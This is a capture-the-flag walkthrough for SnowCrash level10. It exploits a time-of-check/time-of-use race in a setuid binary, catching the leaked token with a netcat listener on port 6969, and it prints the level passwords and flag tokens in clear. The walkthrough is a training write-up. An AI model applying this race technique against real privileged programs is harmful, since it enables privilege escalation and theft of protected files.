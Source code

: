 # level10

Using `ls`, we can discover another couple of files.

```bash
level10@SnowCrash:~$ ls -l
total 16
-rwsr-sr-x+ 1 flag10 level10 10817 Mar  5  2016 level10
-rw-------  1 flag10 flag10     26 Mar  5  2016 token
```

Let's get some informations about our couple.

```bash
level10@SnowCrash:~$ readelf -p .rodata level10

String dump of section '.rodata':
  [     8]  %s file host^J^Isends file to host if you have access to it^J
  [    43]  Connecting to %s:6969 .. 
  [    5d]  Unable to connect to host %s^J
  [    7b]  .*( )*.^J
  [    84]  Unable to write banner to host %s^J
  [    a7]  Connected!^JSending file .. 
  [    c3]  Damn. Unable to open file
  [    dd]  Unable to read from file: %s^J
  [    fb]  wrote file!
  [   107]  You don't have access to %s^J

level10@SnowCrash:~$ nm -u level10
         w _Jv_RegisterClasses
         U __errno_location@@GLIBC_2.0
         w __gmon_start__
         U __libc_start_main@@GLIBC_2.0
         U __stack_chk_fail@@GLIBC_2.4
         U access@@GLIBC_2.0
         U connect@@GLIBC_2.0
         U exit@@GLIBC_2.0
         U fflush@@GLIBC_2.0
         U htons@@GLIBC_2.0
         U inet_addr@@GLIBC_2.0
         U open@@GLIBC_2.0
         U printf@@GLIBC_2.0
         U puts@@GLIBC_2.0
         U read@@GLIBC_2.0
         U socket@@GLIBC_2.0
         U strerror@@GLIBC_2.0
         U write@@GLIBC_2.0
level10@SnowCrash:~$ cat token
cat: token: Permission denied
level10@SnowCrash:~$ ./level10 token
./level10 file host
    sends file to host if you have access to it
level10@SnowCrash:~$ ./level10 token 127.0.0.1
You don't have access to token
```

Access comes after read, we will exploit [TOC/TOU](https://en.wikipedia.org/wiki/Time-of-check_to_time-of-use) flaw. This is actually a really interesting vulnerability in the 42 school ecosystem.

Let's upload our scripts to the server.

```bash
➜  level10 git:(main) ✗ scp -r -P 42421 ressources/ level10@localhost:/tmp/ressources
           _____                      _____               _     
          / ____|                    / ____|             | |    
         | (___  _ __   _____      _| |     _ __ __ _ ___| |__  
          \___ \| '_ \ / _ \ \ /\ / / |    | '__/ _` / __| '_ \ 
          ____) | | | | (_) \ V  V /| |____| | | (_| \__ \ | | |
         |_____/|_| |_|\___/ \_/\_/  \_____|_|  \__,_|___/_| |_|
                                                        
  Good luck & Have fun

          10.0.2.15 
level10@localhost's password: s5cAJpM8ev6XHw998pRWG728z
toctou.sh                                                                                                      100%  123    14.7KB/s   00:00    
caller.sh                                                                                                      100%   58   147.9KB/s   00:00
```

First, let's host a netcat server in **another** prompt, we will use the port 6969 as we saw in the readelf dump.

```bash
level10@SnowCrash:~$ nc -lk 6969
```

Run each ressources in dedicated prompts or using `&`.

Let is run a few seconds and use the following command to extract the flag.

```bash
level10@SnowCrash:~$ cat /tmp/out | grep -v ".*( )*."
woupa2yuojeeaaed06riuj63c
```

Let's get our flag.

```bash
level10@SnowCrash:~$ su flag10
Password: woupa2yuojeeaaed06riuj63c
Don't forget to launch getflag !
flag10@SnowCrash:~$ getflag
Check flag.Here is your token : feulo4b72j7edeahuete3no7c
```

And head to the level 11.

```bash
flag10@SnowCrash:~$ su level11
Password: feulo4b72j7edeahuete3no7c
level11@SnowCrash:~$ 
```
